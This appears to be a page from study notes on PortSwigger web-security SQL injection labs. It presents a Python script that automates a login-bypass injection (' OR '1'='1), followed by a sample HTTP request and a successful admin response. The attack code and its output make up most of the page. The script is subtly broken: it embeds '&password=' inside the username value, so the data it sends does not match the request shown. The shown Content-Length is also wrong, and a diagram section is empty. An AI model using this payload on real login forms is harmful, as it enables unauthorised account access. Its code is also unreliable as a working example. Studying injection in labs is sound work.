

## Scripted SQL Injection Exploit

Automating SQL Injection attacks can be done using scripts. Let's look at a Python script that automates the process.

### Python Script for SQL Injection

Here’s a Python script that automates the SQL Injection attack:

```python
import requests

def sql_injection_attack(url, username, password):
    # Construct the payload
    payload = f"{username}' OR '1'='1&password={password}"
    
    # Send the request
    response = requests.post(url, data={'username': payload, 'password': password})
    
    # Check if the attack was successful
    if "Welcome, admin!" in response.text:
        print("SQL Injection successful!")
    else:
        print("SQL Injection failed.")

# Example usage
url = "http://example.com/login"
username = "admin"
password = "password"
sql_injection_attack(url, username, password)
```

### Full HTTP Request and Response

Here’s the full HTTP request and response for the automated attack:

```http
POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

username=admin' OR '1'='1&password=password
```

Response:

```http
HTTP/1.1 200 OK
Date: Mon, 20 Mar 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 1234

<!DOCTYPE html>
<html>
<head>
    <title>Login</title>
</head>
<body>
    <h1>Welcome, admin!</h1>
</body>
</html>
```

### Mermaid Diagram for Automated Attack



---
<!-- nav -->
[[10-SQLmap Tool|SQLmap Tool]] | [[Web Security (PortSwigger)/02-SQL Injection/11-Lab 10 SQL injection attack listing the database contents on Oracle/00-Overview|Overview]] | [[12-Union-Based SQL Injection|Union-Based SQL Injection]]
